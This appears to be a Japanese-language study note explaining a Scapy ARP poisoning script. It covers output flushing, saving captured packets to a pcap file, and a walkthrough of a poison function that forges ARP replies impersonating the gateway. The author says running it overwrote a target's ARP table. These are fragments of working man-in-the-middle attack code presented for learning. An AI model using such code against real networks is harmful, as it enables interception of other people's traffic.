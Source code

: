 ```python
sys.stdout.flush()
```

フラッシュといのは、プログラムが終了したにもかかわらずOSのバッファリング（一時的なデータ記憶）により実際には出力されてなかったものを出力させること。

おまけに`wrpcap`についても：

```python
from scapy.all import wrpcap

wrpcap('arper.pcap', packets)
```
キャプチャしたパケット達（`packets`）を`arper.pcap`という名のキャプチャファイルに記録する。

# 疑問点とその解消

初見で俺は次の疑問が湧いた：

どのタイミングでMACアドレス書き換えた？これでARPポイゾニングできてんの？

でも確かに実行してみるとターゲットのARPテーブルが攻撃者のそれに見事書き換えられていた。

ここではその原理を説明する（上の`poison`関数を噛み砕いてゆく）。

`poison`関数一個目のブロック：

```python
# poisoned ARP packet for the victim
        poison_victim = ARP()
        poison_victim.op = 2  # ARP 応答
        poison_victim.psrc = self.gateway
        poison_victim.pdst = self.victim
        poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc}')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac src: {poison_victim.hwsrc}')
        print(f'mac dst: {poison_victim.hwdst}')
        print(poison_victim.summary())
        print('-' * 30)
```

これは

gateway → アタッカー → victim

という流れにおけるパケット操作。

つまり

アタッカーから見たvictimに対する毒パケット


一方、ARPポイゾニングとは、MACアドレスをアタッカーのそれに書き換えるものであった（上のイラスト参照。）

そしてコードの次の部分に注目：

```python
# poisoned ARP packet for the victim
        poison_victim.psrc = self.gateway
        poison_victim.pdst = self.victim
        poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc}')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac src: {poison_victim.hwsrc}')  # <- キーポイント
        print(f'mac dst: {poison_victim.hwdst}')
```
